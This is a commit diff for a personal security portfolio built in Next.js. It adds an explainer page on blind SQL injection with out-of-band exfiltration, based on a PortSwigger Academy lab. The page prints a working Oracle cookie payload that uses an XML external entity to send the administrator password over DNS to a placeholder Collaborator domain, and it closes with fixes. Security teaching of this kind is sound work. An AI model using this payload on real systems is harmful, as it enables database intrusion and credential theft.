

Before and after one commit to haxor-uii/hannan-sayed-portfolio, a Next.js app: page /writeups/sql-injection-out-of-band-exfiltration in a window 1280 px wide. Before the commit this address had no page. Shown: the top 1445 px of the page at 80% size. Before the commit the page ends 956 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add SQL injection explainer, hardest Practitioner lab

```diff
--- a/app/components/SiteChrome.js
+++ b/app/components/SiteChrome.js
@@ -19,7 +19,7 @@ const nav = [
   ["Skills", "/skills", "What I can test"],
   ["Experience", "/experience", "ShadowFox internship"],
   ["Certifications", "/certifications", "Training and certs"],
-  ["Writeups", "/writeups", "Three ShadowFox walkthroughs"],
+  ["Writeups", "/writeups", "Walkthroughs and explainers"],
   ["Download CV", "/cv", "Printable CV"],
 ];
 
--- a/app/page.js
+++ b/app/page.js
@@ -22,7 +22,7 @@ const quickLinks = [
   { label: "About", href: "/about", desc: "Who I am and what I focus on." },
   { label: "Skills", href: "/skills", desc: "Core skills, vulns, and tools." },
   { label: "Certifications", href: "/certifications", desc: "Training and certificates." },
-  { label: "Writeups", href: "/writeups", desc: "Three ShadowFox walkthroughs." },
+  { label: "Writeups", href: "/writeups", desc: "Walkthroughs and vulnerability explainers." },
 ];
 
 export default function Home() {
--- a/app/writeups/page.js
+++ b/app/writeups/page.js
@@ -23,10 +23,10 @@ function TagList({ items, label }) {
 export default function Writeups() {
   return (
     <div>
-      <PageHead eyebrowText="Writeups" title="Writeups" intro="Writeups from my ShadowFox internship and other labs, organised by topic. Three posts published." />
+      <PageHead eyebrowText="Writeups" title="Writeups" intro="Writeups from my ShadowFox internship and other labs, organised by topic. Four posts published, including the first vulnerability explainer." />
       <Reveal tag="section" className="py-10">
         <h2 className="text-xl text-[#F5F2ED] sm:text-2xl">Categories</h2>
-        <TagList label="Writeup categories" items={["Web vulnerabilities", "Lab notes"]} />
+        <TagList label="Writeup categories" items={["Web vulnerabilities", "Lab notes", "Vulnerability explainers"]} />
       </Reveal>
       <GlowDivider />
       <Reveal tag="section" className="py-10">
@@ -67,6 +67,18 @@ export default function Writeups() {
             MD5 cracked to password123, a PE entry point, and a reverse shell on my own Windows VM. Lab notes, 5 min read.
           </span>
         </a>
+        <a
+          href="/writeups/sql-injection-out-of-band-exfiltration"
+          className="mt-6 block rounded-xl border border-[#262626] p-4 transition-colors duration-200 hover:border-[#8A8A8A]"
+        >
+          <span className="flex flex-wrap items-start justify-between gap-3">
+            <span className="text-sm font-semibold text-[#F5F2ED]">SQL injection, blind with out-of-band exfiltration, explained</span>
+            <span className="shrink-0 text-xs font-bold uppercase tracking-[0.28em] text-[#8A8A8A]">Practitioner</span>
+          </span>
+          <span className="mt-2 block text-sm leading-relaxed text-[#8A8A8A]">
+            The hardest Practitioner SQLi lab on PortSwigger Academy. A cookie, a silent query, and a password smuggled out over DNS. Vulnerability explainer, 5 min read.
+          </span>
+        </a>
       </Reveal>
     </div>
   );
--- /dev/null
+++ b/app/writeups/sql-injection-out-of-band-exfiltration/page.js
@@ -0,0 +1,131 @@
+import WriteupArticle from "../../components/WriteupArticle";
+import Reveal from "../../components/Reveal";
+import GlowDivider from "../../components/GlowDivider";
+
+export const metadata = {
+  description: "SQL injection explainer: blind SQLi with out-of-band data exfiltration, the hardest Practitioner lab in the topic on PortSwigger Academy. How it works, the payload, and the fix.",
+  title: "SQL injection, blind with out-of-band exfiltration, explained | hannan.",
+};
+
+function Section({ title, children }) {
+  return (
+    <Reveal tag="section" className="py-8">
+      <h2 className="mt-3 text-xl text-[#F5F2ED] sm:text-2xl">{title}</h2>
+      <div className="mt-4 space-y-4 text-sm leading-relaxed text-[#F5F2ED]">{children}</div>
+    </Reveal>
+  );
+}
+
+function Code({ children }) {
+  return (
+    <pre className="overflow-x-auto rounded-xl border border-[#262626] bg-[#111111] p-4 font-mono text-sm leading-relaxed text-[#F5F2ED]">
+      <code>{children}</code>
+    </pre>
+  );
+}
+
+export default function SqlInjectionOutOfBand() {
+  return (
+    <WriteupArticle
+      title="SQL injection, blind with out-of-band exfiltration, explained"
+      date="PortSwigger Academy, Practitioner"
+      category="Vulnerability explainer"
+      readingTime="5 min read"
+    >
+      <p>
+        This is an explainer, not a lab diary. Each post in this series teaches one vulnerability and
+        walks through the hardest Practitioner lab for it on PortSwigger Academy, step by step, with
+        the real payloads. There are no screenshots here, the labs are public and you can run them
+        yourself.
+      </p>
+      <p>
+        SQL injection is when user input ends up inside a database query, so the attacker gets to
+        rewrite the query. The classic version is loud: the page shows you the data you asked for. The
+        blind version is quiet: the page shows you nothing at all. This lab is the blind version, and
+        the answer has to leave the server through a side channel, a DNS lookup.
+      </p>
+
+      <GlowDivider />
+
+      <Section title="The bug">
+        <p>
+          The lab is a shopping site. Every visit sets a TrackingId cookie, and the site uses that
+          cookie in a database query. The cookie is injectable, so a quote in it breaks out of the
+          query. The catch is that the query runs asynchronously, the page never shows the result, and
+          there is no error message to read. You can ask the database anything, but it will not answer
+          you on the page.
+        </p>
+        <p>
+          So you need the database to answer somewhere else. That is what out-of-band means: instead
+          of reading the result in the response, you make the database call out to a server you
+          control, with the answer hidden inside the call.
+        </p>
+      </Section>
+
+      <GlowDivider />
+
+      <Section title="The worked example">
+        <p>
+          The lab is Blind SQL injection with out-of-band data exfiltration, Practitioner level, on
+          PortSwigger Academy. The goal is the administrator password, and the way out is DNS.
+        </p>
+        <p>
+          Oracle has a function, EXTRACTVALUE, that parses XML. If the XML contains an external
+          entity, the database fetches the URL in that entity to resolve it. So you build a UNION
+          SELECT that hands the database a piece of XML, and inside the XML you put an entity whose
+          URL contains the admin password, followed by your Collaborator domain. The database does a
+          DNS lookup for that name, and the password shows up in the Collaborator log as a subdomain.
+        </p>
+        <p>
+          Put this in the TrackingId cookie, replacing the Collaborator part with your own Burp
+          Collaborator subdomain. You need Burp Suite Professional for Collaborator, or any domain
+          where you can see the DNS lookups.
+        </p>
+        <Code>{`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.<COLLABORATOR>/"> %remote;]>'),'/l') FROM dual--`}</Code>
+        <p>
+          What happens, piece by piece. The quote closes the original query. The UNION SELECT runs a
+          second query. EXTRACTVALUE forces the database to parse the XML. The entity in the XML
+          points at a URL built from the admin password, so the database resolves that URL over DNS.
+          The password arrives in the Collaborator log, and you log in as administrator with it.
+        </p>
+        <p>
+          Three things make this the hardest Practitioner SQLi lab. The injection point is a cookie,
+          not a visible form field. The query gives back nothing, so you have to think in side
+          channels. And the exfiltration uses two ideas at once, XML external entities and DNS, inside
+          a SQL payload.
+        </p>
+      </Section>
+
+      <GlowDivider />
+
+      <Section title="The fix">
+        <p>
+          <strong>Parameterized queries.</strong> The input should be a value in the query, never
+          part of the query itself. Prepared statements do this. String concatenation does not, and no
+          amount of filtering fixes that.
+        </p>
+        <p>
+          <strong>Least privilege for the database user.</strong> The web app database user should
+          only be able to do what the app needs. If it cannot read the users table, or cannot make
+          outbound network calls, this exact attack fails even if the injection is still there.
+        </p>
+        <p>
+          <strong>Block outbound DNS from the database.</strong> Out-of-band exfiltration needs the
+          database to reach the internet. If it cannot resolve external names, the password has
+          nowhere to go.
+        </p>
+      </Section>
+
+      <GlowDivider />
+
+      <p className="text-sm text-[#8A8A8A]">
+        Lab: Blind SQL injection with out-of-band data exfiltration, PortSwigger Web Security Academy, Practitioner level. Run it yourself on the Academy, it is free.
+      </p>
+      <p>
+        <a href="/writeups" className="font-semibold text-[#F5F2ED] underline underline-offset-4">
+          Back to Writeups
+        </a>
+      </p>
+    </WriteupArticle>
+  );
+}
```
